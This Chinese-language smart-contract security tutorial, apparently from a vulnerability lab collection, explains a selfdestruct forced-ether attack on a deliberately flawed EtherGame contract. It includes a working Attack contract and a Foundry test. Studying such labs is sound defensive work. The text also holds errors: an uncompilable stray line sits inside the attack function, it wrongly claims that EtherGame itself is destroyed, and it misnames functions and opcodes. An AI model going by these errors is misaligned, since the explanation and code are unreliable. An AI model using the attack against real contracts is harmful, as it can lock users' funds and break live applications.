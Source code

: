 # Selfdestruct
[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)  
**名称：** 自毁漏洞  
**描述：**    
EtherGame合约的代码中的有一个自毁漏洞，这个漏洞允许攻击者通过EtherGame合约自毁（使用selfstruct操作码）来破坏游戏。  
该漏洞的产生是由于Attack合约中的doc函数在收到大量以太币后，执行自毁操作并将合约剩余的以太币全部发送给EtherGame合约。由于执行了自毁操作，EtherGame合约的功能被永久禁用，这使得任何人都无法存入以太币或者领取获胜者的奖励。


**场景：**  
1. 部署EtherGame合约  
2. 玩家（假设是Alice和Bob）决定参与游戏，并各自向EtherGame约合存入1个以太币。
3. 部署Attack合约并在构造函数中传入EtherGame合约地址
4. 调用Attack.attack发送5个以太币到EtherGame合约。这将破坏游戏，任何人都不可能成为赢家。

**发生了什么？**  
攻击者迫使EtherGame合约的余额等于7个以太币。  
现在任何人都不能向EtherGame合约存入以太币，也无法确定赢家。  
因为访问控制缺失或者不足，攻击者可以自毁合约。  
selefdestruct(address)函数会从合约地址删除所有的字节码并且发送所有的以太币到指定的合约地址。  

**解决办法：**  
不要依赖this.balance来获取存入的以太币余额，而是用一个状态变量来表示存入的总金额。  

**EtherGame 合约：**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  
forge test --contracts src/test/Selfdestruct.sol -vvvv  
```
// 测试使用自毁函数的场景
function testSelfdestruct() public {
    // 记录Alice的余额
    console.log("Alice balance", alice.balance);
    // 记录Eve的余额
    console.log("Eve balance", eve.balance);

    // 记录Alice开始存款
    console.log("Alice deposit 1 Ether...");
    // 将msg.sender设置为Alice
    vm.prank(alice);
    // Alice向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录Eve开始存款
    console.log("Eve deposit 1 Ether...");
    // 将msg.sender设置为Eve
    vm.prank(eve);
    // Eve向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录EtherGame合约的余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // 记录攻击的开始
    console.log("Attack...");
    //使用EtherGame合约作为参数创建Attack合约的新实例。
    AttackerContract = new Attack(EtherGameContract);
    // 向Attacker合约的dos函数发送5个以太币。
    AttackerContract.dos{value: 5 ether}();
    // 记录攻击后EtherGame合约的新余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // 记录攻击的完成
    console.log("Exploit completed, Game is over");
    // 尝试向EtherGame合约存入1个以太币。由于合约已被销毁，此调用将失败。
    EtherGameContract.deposit{value: 1 ether}(); // 由于合约已被销毁，此调用将失败。
}

// 用于攻击EtherGame合约的合约。
contract Attack {
    // 要攻击的EtherGame合约。
    EtherGame etherGame;

    // 构造函数中设置EtherGame合约。
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // 执行攻击的函数
    function dos() public payable {
        // 通过发送以太币来破坏游戏，使游戏余额大于等于7个以太币 
        balance is >= 7 ether.

        // 将EtherGame合约地址转换为可支付的地址
        address payable addr = payable(address(etherGame));
        // 自毁合约，并将其余额发送到EtherGame合约
        selfdestruct(addr);
    }
}
```  
**红框：** 攻击成功，游戏结束。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1b7b4334-de84-448a-a344-646eb909fb4f%2FUntitled.png?table=block&id=ed7eeade-45f5-4ed8-a8e7-b6e940b0af07&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)